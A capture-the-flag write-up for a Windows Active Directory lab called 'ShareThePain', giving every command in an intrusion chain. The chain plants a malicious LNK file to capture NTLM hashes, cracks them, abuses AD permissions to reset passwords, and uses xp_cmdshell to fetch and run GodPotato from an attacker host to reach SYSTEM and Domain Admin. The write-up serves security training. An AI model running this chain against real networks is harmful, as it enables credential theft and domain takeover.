# Lab Report - ShareThePain


# Overview 
- **Difficulty**: Medium
- **Platform**: Windows - Active Directory
- **Link**: https://www.hacksmarter.org/courses/63bc86e1-3ab3-43be-b32e-62a676e6dee7

## Resolution Summary 
Starting without credentials, we enumerated SMB shares anonymously and abused a writable share by uploading a malicious LNK file, allowing us to steal a user's hash, which we cracked to gain a foothold on the domain. Next, we abused `GenericAll` another user's password and we consequently gained a shell access to the DC. After discovering an MSSQL server running locally, we exposed it with Ligolo-ng and abused our sysadmin privileges to execute OS commands. Seeing that we had `SeImpersonatePrivilege` enabled, we compromised a Domain Admin user by changing its password. 

# Walkthrough
- Since we did not have any credentials at hand, we first attempted to see if anonymous share listing was enabled. We discovered that we could read and write anonymously to a specific share:
```bash
nxc smb 10.0.17.211 -u 'admin' -p '' --shares
```
<p align="center">
  
</p>

- Next, we tried to upload a benign file in order to confirm that we had write access to the share, which was the case: 
```bash
echo "test" > test.txt
smbclient //10.0.17.211/Share -U "guest"
put test.txt
```
<p align="center">
  
</p>

- Therefore, we decided to upload a malicious LNK file in order force a any user who accesses the share to authenticate to an SMB server of our own, effectively harvesting their NTLM hash.
- For that, we began by setting up an SMB server, which will be listening for any authentication attempt: 
```bash
smbserver.py -smb2support share /tmp/test -debug
```

- Next, we generated and uploaded a malicious LNK file using the `lnkbomb` tool: 
```bash
python3 lnkbomb.py -t 10.0.17.211 -a 10.200.114.249 -s Share -u guest -p '' --windows -n DC01
```
<p align="center">
  
</p>

- Afterward, we did catch an authentication attempt from the `bob.ross` user: 
<p align="center">
  
</p>

- We saved the hash in a file and cracked it with `hashcat` in order to recover the cleartext password of the `bob.ross` user, allowing us to gain a foothold on the AD domain:
```bash
hashcat -m 5600 hash.txt ~/Downloads/rockyou.txt
```
<p align="center">
  
</p>

- We confirmed our access with: 
```bash
nxc smb 10.0.17.211 -u bob.ross -p '137Password123!@#'
```
<p align="center">
  
</p>

- From there, we collected bloodhound data to discover any dangerous ACL our user might have: 
```bash
nxc ldap 10.0.17.211 -u bob.ross -p '137Password123!@#' --bloodhound --collection all --dns-server 10.0.17.211
```
<p align="center">
  
</p>

- When inspecting our user `Outbound Object Control` field, we noticed that he had several privileges over the `alice.wonderland` user, including `GenericAll`. By extension, we also found out that `alice.wonderland` was a member of the `Remote Management Users` group, which would grant us a shell session on the DC.
<p align="center">
  
</p>
<p align="center">
  
</p>

- First, we abused `GenericAll` over `alice.wonderland` by resetting its password: 
```bash
bloodyad --host 10.0.17.211 -d hack.smarter -u bob.ross -p '137Password123!@#' set password alice.wonderland 'Password123!'
```
<p align="center">
  
</p>

- Next, we gained a shell session on the DC using WinRM: 
```bash
evil-winrm -i 10.0.17.211 -u alice.wonderland -p 'Password123!'
```
<p align="center">
  
</p>

- Once inside the target, we discover that MSSQL is running locally: 
```bash
netstat -ano | findstr 1433
```
<p align="center">
  
</p>

- Therefore, our objective was to expose this local service so that we could access it directly from our attacking machine.
- For that purpose, we used Ligolo-ng.

- To begin with, we set up the proxy server on our attacking machine and created an interface:
```bash
sudo ./proxy -selfcert
interface_create --name ligolo
```
<p align="center">
  
</p>

- Next, we served the agent binary:
```bash
python3 -m http.server 80
```
- And we downloaded it from the target machine:
```powershell
invoke-webrequest http://10.200.114.249/agent.exe -u
sebasicparsing -outfile C:\Users\alice.wonderland\Desktop\agent.exe
```

- Next we connected back with the agent to the proxy server:
```bash
.\agent.exe -connect 10.200.114.249:11601 -ignore-cert
```

- Finally, we selected our agent session, started the tunneling and set up an interface to expose its local services: 
```bash
session
tunnel_start --tun ligolo
interface_add_route --name ligolo --route 240.0.0.1/32
```
<p align="center">
  
</p>

- Following that, we accessed the MSSQL service and found out that we were sysadmin:
```bash
mssqlclient.py hack.smarter/alice.wonderland@10.0.17.211 -windows-auth
SELECT IS_SRVROLEMEMBER('sysadmin');
```
<p align="center">
  
</p>

- Therefore, we enabled OS command execution and listed our privileges, which showed us that we had `SeImpersonatePrivilege` enabled: 
```bash
EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;
EXEC xp_cmdshell 'whoami /priv';
```
<p align="center">
  
</p>

- We could abuse `SeImpersonatePrivilege` by using the `GodPotato` exploit, which would allow us to achieve SYSTEM command execution.
- First, we downloaded the exploit from our machine via our previous python3 HTTP server: 
```sql
EXEC xp_cmdshell 'powershell -Command "invoke-webrequest http://10.200.114.249/GodPotato-NET4.exe -usebasicparsing -outfile C:\Temp\GodPotato.exe"';
```

- Then we confirmed that the exploit worked by running `whoami` as SYSTEM:
```sql
EXEC xp_cmdshell 'C:\Temp\GodPotato.exe -cmd whoami';
```
<p align="center">
  
</p>

- Having SYSTEM access, we can change the password of `tyler.ramsey`, which is a Domain Admin: 
```bash
EXEC xp_cmdshell 'C:\Temp\GodPotato.exe -cmd "net user tyler.ramsey Password123!"';
```
<p align="center">
  
</p>

- We can confirm that the operation was a success with: 
```bash
nxc smb 10.0.17.211 -u tyler.ramsey -p 'Password123!'
```
<p align="center">
  
</p>

- Finally, we can get a shell session over WinRM and collect the flags: 
```bash
evil-winrm -i 10.0.17.211 -u tyler.ramsey -p 'Password123!'
cat C:\Users\alice.wonderland\Desktop\user.txt
cat C:\Users\Administrator\Desktop\root.txt
```
<p align="center">
  
</p>

# Trophy 
**User.txt → `bWFkZV9pdF90aGlzX2Zhcgo=`** 

**Root.txt → `YWxsIGFib3V0IHRoYXQgcm9vdCwgYm91dCB0aGF0IHJvb3QsIEpVU1QgREEK`**

